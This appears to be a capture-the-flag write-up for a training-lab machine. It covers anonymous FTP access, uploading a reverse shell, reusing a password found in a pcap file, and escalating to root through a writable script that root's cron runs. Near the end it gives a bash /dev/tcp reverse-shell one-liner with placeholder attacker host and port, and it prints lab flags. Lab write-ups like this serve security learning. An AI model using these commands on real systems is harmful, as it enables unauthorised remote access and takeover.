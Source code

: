 
# Enum

nmap scan

```
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| drwxrwxrwx    2 65534    65534        4096 Nov 12  2020 ftp [NSE: writeable]
| -rw-r--r--    1 0        0          251631 Nov 12  2020 important.jpg
|_-rw-r--r--    1 0        0             208 Nov 12  2020 notice.txt
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 10.10.65.176
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 b9:a6:0b:84:1d:22:01:a4:01:30:48:43:61:2b:ab:94 (RSA)
|   256 ec:13:25:8c:18:20:36:e6:ce:91:0e:16:26:eb:a2:be (ECDSA)
|_  256 a2:ff:2a:72:81:aa:a2:9f:55:a4:dc:92:23:e6:b4:3f (EdDSA)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Maintenance
MAC Address: 02:64:75:25:A9:C1 (Unknown)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

```

looks like there are ftp ssh http, and it gave us information about the ftp because it allows anonymous login


![](https://i.imgur.com/rxNZr3D.png)



![](https://i.imgur.com/1mDObrg.png)



![](https://i.imgur.com/qNezfpd.png)



Maya is a keyword.



![](https://i.imgur.com/DqaZqSZ.png)


so i think we can just upload a reverse shell on the ftp server and get access then shall we?

![](https://i.imgur.com/lIGjZow.png)


successfully got shell :D

![](https://i.imgur.com/gy96zoA.png)


now we need to explore..

we found the recipe!!

![](https://i.imgur.com/H46eA3L.png)


```
love
```

so then we can explroe and i found something called incidents, it has a pcap file inside so we need to take it and put it in the ftp server so we can retrieve it on our main machine

![](https://i.imgur.com/JAUa8vi.png)


after ananlyzing the wireshark file we found that the attempted password was c4ntg3t3n0ughsp1c3 but its incorrect. so we gotta explore around

![](https://i.imgur.com/jxOgzHb.png)


looks like the pcap file shows that the user tried to access root with that password, what if we use the password for lennie and it worked!!!

![](https://i.imgur.com/9Q6sYX1.png)


we used the command so we dont have the error of `su: must be run from a terminal`

`/usr/bin/script -qc /bin/bash /dev/null`

[su must be run from a terminal](https://forum.hackthebox.com/t/su-must-be-run-from-a-terminal/1458/4)

after that we can get the user.txt in lennie's dir

the flag is `THM{03ce3d619b80ccbfb3b7fc81e46c0e79}`

![](https://i.imgur.com/G4BAkvo.png)



now we need to privesc

so after examining i found that there are other dirs in lennie's dir. which shows scripts, documents

i found that there are .sh and .txt files inside documents but theres something weird.. the sh runs every minute?? so i cat and found that it echos to variable LIST and it redirects the output of the echo to file startup_list.txt, then after that it executes the print.sh so that means it executes print.sh every minute then right? 
after checking where the print.sh file is at its in /etc/print.sh and luckily lennie is the owner of this file so that means i can easily echo inside this file a shell because it gets executed every minute by root.

i echoed the shell to print.sh 

```
`bash -i >& /dev/tcp/your_attack_machine_ip/your_attack_machine_port 0>&1`
```

then listened on my main machine on the port and successfully got root access :D 

successfully cat the root.txt and gg

![](https://i.imgur.com/y01ybg5.png)


